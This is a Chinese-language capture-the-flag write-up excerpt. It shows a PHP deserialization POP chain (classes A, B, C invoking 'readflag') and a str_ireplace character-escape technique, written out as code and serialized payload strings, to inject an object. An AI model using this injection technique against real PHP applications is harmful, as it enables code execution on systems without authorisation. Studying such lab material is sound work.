 ```php
class B{
  public $b; // New
  
  // New
  public function __construct() {
    $this->b = [new A(), "readflag"];
  }
  
  public function  __toString(){
    ($this->b)(); // New
    return ""; // New
  }
}
class C{
  public $s;
  public $str;
  public function  __construct(){
    $this->s = '';
    $this->str = new B(); // New
  }
  public function  __destruct(){
    echo $this->str;
  }
}

$ser = serialize(new C($_GET['c']));
echo $ser; // O:1:"C":2:{s:1:"s";s:0:"";s:3:"str";O:1:"B":1:{s:1:"b";a:2:{i:0;O:1:"A":1:{s:3:"key";s:5:"key";}i:1;s:8:"readflag";}}}
```

#### **字符逃逸**

题目中只能通过 `c` 进行传值，因此需要通过题目提供的 `str_ireplace()` 函数进行字符逃逸给 `str` 赋值以下内容

```
";s:3:"str";O:1:"B":1:{s:1:"b";a:2:{i:0;O:1:"A":1:{s:3:"key";s:5:"key";}i:1;s:8:"readflag";}}}
```

可以发现 `s:5:"key";` 匹配不上，结果需要是 `\0key\0` ，又因为现在序列化用的是双引号，PHP 使用单引号时 `\0` 无法被转义，因此需要使用 `str_ireplace('00', "\0", $str)` 进行替换，并且在序列化中 s 不能识别十六进制字符，因此需要将 `s` 改为 `S` 。

在题目有还有一个 `str_ireplace("\0","00",$ser);` 会将`\0` 变成 `00` ，因此需要给 key 的值加上反斜杠 `\`

```php
str_ireplace('00', "\0", '";s:3:"str";O:1:"B":1:{s:1:"b";a:2:{i:0;O:1:"A":1:{s:3:"key";S:5:"\00key\00";}i:1;s:8:"readflag";}}}');
// O:1:"C":2:{s:1:"s";s:197:"1";s:3:"str";O:1:"B":1:{s:1:"b";a:2:{i:0;O:1:"A":1:{s:3:"key";S:5:"\key\";}i:1;s:8:"readflag";}}}";s:3:"str";N;}
```

因此逃逸的字符有 96 个，即

```
";s:3:"str";O:1:"B":1:{s:1:"b";a:2:{i:0;O:1:"A":1:{s:3:"key";S:5:"\key\";}i:1;s:8:"readflag";}}}
```
